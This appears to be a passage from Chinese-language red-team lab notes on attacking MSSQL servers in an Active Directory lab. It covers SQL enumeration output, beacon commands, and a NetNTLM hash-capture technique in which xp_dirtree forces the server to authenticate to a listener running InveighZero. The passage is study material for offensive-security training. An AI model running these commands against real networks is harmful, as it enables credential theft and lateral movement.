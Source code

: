 ComputerName           : srv-1.dev.cyberbotic.io
Instance               : SRV-1
DomainName             : DEV
ServiceProcessID       : 3960
ServiceName            : MSSQLSERVER
ServiceAccount         : DEV\svc_mssql
AuthenticationMode     : Windows Authentication
ForcedEncryption       : 0
Clustered              : No
SQLServerVersionNumber : 13.0.5026.0
SQLServerMajorVersion  : 2016
SQLServerEdition       : Standard Edition (64-bit)
SQLServerServicePack   : SP2
OSArchitecture         : X64
OsMachineType          : ServerNT
OSVersionName          : Windows Server 2016 Datacenter
OsVersionNumber        : SQL
Currentlogin           : DEV\bfarmer
IsSysadmin             : Yes
ActiveSessions         : 1
```

```Get-SQLQuery```执行sql命令
```
beacon> powershell Get-SQLQuery -Instance "srv-1.dev.cyberbotic.io,1433" -Query "select @@servername"

Column1
-------
SRV-1 
```


```mssqlclient.py```连接mssql，需要账号密码
```
root@kali:~# proxychains python3 /usr/local/bin/mssqlclient.py -windows-auth DEV/bfarmer@10.10.17.25
```

GUI连接工具:[HeidiSQL](https://www.heidisql.com/)或者[SMSS](https://docs.microsoft.com/en-us/sql/ssms/download-sql-server-management-studio-ssms)

![alt GUI](https://rto-assets.s3.eu-west-2.amazonaws.com/sql-servers/heidi.png?width=1920)


# MSSQL NetNTLM Capture

通过mssql的xp_dirtree命令可以进行中继攻击

## 方法一

1. 监听
首先在本地监听，使用[InveighZero](https://github.com/Kevin-Robertson/InveighZero)进行监听，需要本地管理员权限
```
beacon> execute-assembly C:\Tools\InveighZero\Inveigh\bin\Debug\Inveigh.exe -DNS N -LLMNR N -LLMNRv6 N -HTTP N -FileOutput N
```
2. 触发
在mssql上，执行命令```EXEC xp_dirtree '\\10.10.17.231\pwn', 1, 1```，10.10.17.231的IP地址就是上面监听的机器

3. 收到NTML
监听机器收到的NTML应该是下面格式
```
[+] [2021-05-14T15:33:49] TCP(445) SYN packet from 10.10.17.25:50323
[+] [2021-05-14T15:33:49] SMB(445) negotiation request detected from 10.10.17.25:50323
[+] [2021-05-14T15:33:49] SMB(445) NTLM challenge 3006547FFC8E90D8 sent to 10.10.17.25:50323